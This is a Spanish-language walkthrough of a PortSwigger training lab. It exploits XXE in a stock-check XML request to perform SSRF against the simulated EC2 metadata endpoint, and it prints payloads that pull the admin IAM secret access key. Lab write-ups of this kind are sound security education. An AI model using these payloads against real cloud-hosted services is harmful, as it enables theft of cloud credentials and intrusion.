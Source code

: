 ```yaml
---
title: "XXE Injection Lab 2"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE to perform SSRF attacks
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting XXE to perform SSRF attacks

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y devuelve cualquier valor inesperado en la respuesta. El `servidor` del laboratorio está ejecutando un `endpoint` de `metadatos` de `EC2 (simulado)` en la `URL` predeterminada, que es `[http://169.254.169.254/](http://169.254.169.254/)`. Este `endpoint` puede usarse para obtener datos sobre la instancia, algunos de los cuales podrían ser sensibles. Para `resolver` el `laboratorio`, hay que `explotar` la vulnerabilidad `XXE` para llevar a cabo un ataque `SSRF` que `obtenga` la `clave secreta` de acceso `IAM` del servidor desde el `endpoint` de `metadatos` de `EC2`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-2/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-2/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-2/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Obtenemos `Doe` lo que quiere decir que ha funcionado y probablemente sea `vulnerable` a un `XXE`

![](/assets/img/XXE-Injection-Lab-2/image_4.png)

Con este `payload` hacemos un petición al `endpoint`, por lo cual estaríamos explotando un `SSRF (Server Side Request Forgery)` a través de un `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La `respuesta` del `servidor` nos `devuelve` el `nombre`, en este caso es `latest`, debemos ir haciendo peticiones hasta `obtener` la `ruta` del `endpoint` completa

![](/assets/img/XXE-Injection-Lab-2/image_5.png)

Con este nuevo `payload` obtenemos la `secret acces key` del usuario `admin`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![](/assets/img/XXE-Injection-Lab-2/image_6.png)
